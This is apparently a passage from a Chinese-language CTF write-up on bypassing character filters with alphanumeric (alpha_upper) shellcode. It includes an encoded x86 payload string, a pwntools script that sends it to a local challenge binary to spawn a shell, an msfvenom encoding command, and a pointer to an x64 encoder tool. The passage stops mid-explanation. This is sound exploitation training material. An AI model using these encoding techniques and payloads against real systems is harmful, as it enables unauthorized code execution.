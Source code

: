 从上面的图中可以看出，程序在执行我们输入的shellcode时会将其放在eax中，然后call eax去执行，这也就是为什么要指定“BufferRegister”，如果不声明BufferRegister的话，生成的shellcode会有额外的几条指令来确定shellcode的位置，而那几条额外的指令却并不是可打印字符。

尝试解这道题，生成payload：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610599967997-69a40de0-8142-4123-8fcb-360365a225ef.png)

> PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIBJDKF8J9QBSVU86M53K9JG58FOCCBH30U8VOSRU9RNMYKSV2JH38S0UPS0VOE23YBNFOSCE830V71CLIM1HMK0AA
>

写成exp：

```python
from pwn import *
context.log_level='debug'

p=process('./chall2') 
payload="PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIBJDKF8J9QBSVU86M53K9JG58FOCCBH30U8VOSRU9RNMYKSV2JH38S0UPS0VOE23YBNFOSCE830V71CLIM1HMK0AA"
p.send(payload)
p.interactive()
```

> 注意不可以使用sendline发送，sendline在payload结尾会添加'\n'，程序会检查每一个字符是否在A～Z和0～9范围之内。由于shellcode在生成时已经指定架构，因此无需添加context.arch = 'amd64'。
>
> **<font style="color:#F5222D;">alpha_upper应该指的是每个字符都</font>****<font style="color:#F5222D;">在</font>****<font style="color:#F5222D;">A～Z和0～9范围之内。</font>**
>

**<font style="color:#F5222D;">当然，我们也可以使用msf编码自己的shellcode：</font>**

```shell
cat shellcode | msfvenom -a x86 --platform linux -e x86/alpha_upper BufferRegister=eax
```

> 请将自己的shellcode保存名为shellcode文件。
>

## x64 ELFshellcode_encoder
由于msf中没有关于x64的alpha_upper编码器，但是我们可以是使用github上开源的：[shellcode_encoder](https://github.com/ecx86/shellcode_encoder)

> 下载链接：[https://github.com/rcx/shellcode_encoder](https://github.com/rcx/shellcode_encoder)
>
> 或执行命令：git clone [https://github.com/rcx/shellcode_encoder](https://github.com/rcx/shellcode_encoder)
>
> 安装工具的前置要求：
>
> + pwntools (`pip install pwntools`)
> + z3 python bindings (`pip install z3-solver`)
>

<font style="color:#333333;">和</font>`msf`<font style="color:#333333;">上的工具一样，都是要确定shellcode的地址才行；</font>使用方法如下：
